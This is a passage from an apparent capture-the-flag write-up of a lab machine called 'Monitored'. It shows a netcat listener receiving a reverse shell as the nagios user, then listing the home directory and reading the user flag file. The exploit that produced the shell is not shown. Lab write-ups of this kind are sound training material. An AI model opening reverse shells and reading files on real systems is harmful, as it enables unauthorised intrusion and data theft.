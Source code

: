 ![monitored12](./assets/monitored12.png)

And we got reverse shell as nagios.

```shell
labadmin@labmachine:~/monitored$ nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 10.10.11.248 55796
bash: cannot set terminal process group (20632): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$
```

We get the user flag in user home directory.

```shell
nagios@monitored:~$ ls -l
ls -l
total 8
-rw-r--r-- 1 nagios nagios 131 May 16 00:07 cookie.txt
-rw-r----- 1 root   nagios  33 May 16 00:02 user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
...[OMITTED]...
```

